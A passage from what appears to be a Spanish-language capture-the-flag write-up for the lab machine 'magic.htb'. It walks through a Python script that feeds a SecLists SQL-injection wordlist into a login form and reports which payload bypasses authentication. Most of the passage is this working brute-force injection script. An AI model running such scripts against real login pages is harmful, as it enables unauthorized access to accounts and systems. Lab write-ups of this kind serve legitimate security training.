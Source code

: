 Ahora vamos a hacerlo manual.

Colocamos la cabecera,importamos las librerías y definimos las variables a utilizar.
```python
#!/usr/bin/env python3
import requests,signal,sys
from pwn import *

#Variables globales
dic =[] 
p1 = log.progress("Inyección")
```

Abrimos el diccionario y con un ciclo for vamos recorriendo linea por linea mientras las agregamos a nuestra lista.

```python
with open("/usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt","r") as f:
	for linea in f:
		palabra = linea.strip() #Elimina el espacio final de la cadena en este caso un espacio en blanco.
		dic.append(palabra) #Agregamos cada linea al dic[]
```
Creamos un método para manejar la salida del programa.

```python
def handler(key,frame):
	print("Adios!!")
	sys.exit(0)

signal = signal.signal(signal.SIGINT,handler)
```

Creamos otro método que enviara la petición con cada una de las inyecciónes.

```python
def ataque(inyeccion): #Recibe como parámetro la inyección que se va enviar.
	url = "http://magic.htb/login.php" #Definimos la url.

	data1={ #Definimos la data.
		"username":inyeccion,
		"password":inyeccion
	}

	r1 = requests.post(url,data=data1) #Enviamos la data.
	if("Select Image to Upload" in r1.text): #Si el texto Select Image to Upload se encuentra en la respuesta significa que la inyección fue la correcta.
		log.info("Inyección Correcta: {}".format(inyeccion)) #Imprimimos la inyeccion correcta.
```

Por último solo creamos nuestro método main.
```python
if __name__ == "__main__":
	print("")
	for linea in dic: #Recorremos cada linea del dic[]
		p1.status(linea) #Actualizamos la inyección en la que va actualmente el for.
		ataque(linea) #Enviamos la inyección.

	p1.success("Ataque finalizado.")
```
